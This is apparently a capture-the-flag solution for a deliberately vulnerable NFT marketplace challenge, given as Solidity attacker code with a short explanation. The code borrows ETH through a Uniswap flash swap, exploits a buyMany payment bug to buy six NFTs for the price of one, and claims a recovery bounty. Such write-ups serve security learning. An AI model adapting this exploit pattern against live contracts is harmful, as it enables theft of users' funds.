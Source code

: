 ```solidity
        // Buy all 6 NFTs (marketplace flaw allows buying with less ETH)
        uint256[] memory tokenIds = new uint256[](6);
        for (uint256 i = 0; i < 6; i++) {
            tokenIds[i] = i;
        }
        
        // Buy all NFTs - marketplace flaw: only requires payment for one NFT
        marketplace.buyMany{value: 15 ether}(tokenIds);
        
        // Transfer NFTs to recovery contract to claim bounty
        for (uint256 i = 0; i < 6; i++) {
            nft.safeTransferFrom(address(this), address(recovery), i);
        }
        
        // Recovery contract sends 45 ETH bounty
        // Convert ETH to WETH for repayment
        weth.deposit{value: 15.045 ether}(); // 15 ETH + 0.3% fee
        
        // Repay flash swap
        weth.transfer(address(pair), 15.045 ether);
        
        // Send remaining profit to attacker
        payable(tx.origin).transfer(address(this).balance);
    }
    
    function onERC721Received(address, address, uint256, bytes memory) 
        public pure returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }
    
    receive() external payable {}
}

// In FreeRider.t.sol
function test_freeRider() public checkSolvedByPlayer {
    FreeRiderAttacker attacker = new FreeRiderAttacker(
        marketplace,
        nft,
        recoveryManager,
        uniswapPair,
        weth
    );
    
    attacker.attack();
}
```

### Why it works
1. Flash swap ETH from Uniswap to get buying power
2. Marketplace `buyMany` has bug: only charges for one NFT regardless of quantity
3. Buy all 6 NFTs for price of 1 (15 ETH instead of 90 ETH)
4. Transfer NFTs to recovery contract for 45 ETH bounty
5. Repay flash swap with profit
